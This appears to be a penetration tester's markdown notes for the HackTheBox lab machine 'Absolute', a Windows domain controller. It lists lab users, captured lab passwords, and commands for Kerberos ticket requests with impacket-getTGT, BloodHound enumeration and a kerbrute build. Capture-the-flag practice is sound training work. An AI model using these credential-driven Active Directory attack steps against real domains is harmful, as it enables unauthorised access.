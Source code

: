 # Absolute Notes

## Data 

IP: 10.129.147.44
OS: Windows 10.0 Build 17763 x64
Hostname: 
Domain:  dc.absolute.htb absolute.htb
Domain SID: S-1-5-21-4078382237-1492182817-2568127209
Machine Purpose: Domain Controller
Services:53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49673,49692,49693,49699,49704,49714,49718
Service Languages:
Users: m.chaffrey,j.roberts,s.osvald,j.robinson,d.klay,n.smith
Credentials:

```
d.klay : Darkmoonsky248girl
```

## Objectives

## Target Map

## Solution Inventory Map


### Todo 


Reset the dae

### Done

```
d.klay@ABSOLUTE.HTB : Darkmoonsky248girl

SVC_SMB@ABSOLUTE.HTB : AbsoluteSMBService123!
```
      
```bash
sed -i 's/10.129.229.59/10.129.229.59/g' Absolute-*.md

sudo sed -i 's/10.129.229.59/10.129.229.59/g' /etc/hosts

echo "10.129.229.59 dc.absolute.htb absolute.htb" | sudo tee -a /etc/hosts
sudo ntpdate -s dc.absolute.htb
impacket-getTGT -dc-ip 10.129.229.59 absolute.htb/d.klay:Darkmoonsky248girl
impacket-getTGT -dc-ip 10.129.229.59 absolute.htb/SVC_SMB:AbsoluteSMBService123!
# /opt/BloodHound.py/bloodhound.py
# bloodhound-python
# Beware docker container need to be sync to DC!

KRB5CCNAME=d.klay.ccache $bloodhoundPythonInstallMethod -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u d.klay -p 'Darkmoonsky248girl' --zip
```

VM requires
```bash
cd /opt/
git clone https://github.com/ropnop/kerbrute.git
wait
cd kerbrute/
go build
wait
cd /opt/
echo "\n# Kerbrute Alias" | tee -a ~/.zshrc
echo "alias kerbrute='/opt/kerbrute/kerbrute" | tee -a ~/.zshrc


source ~/.zshrc
```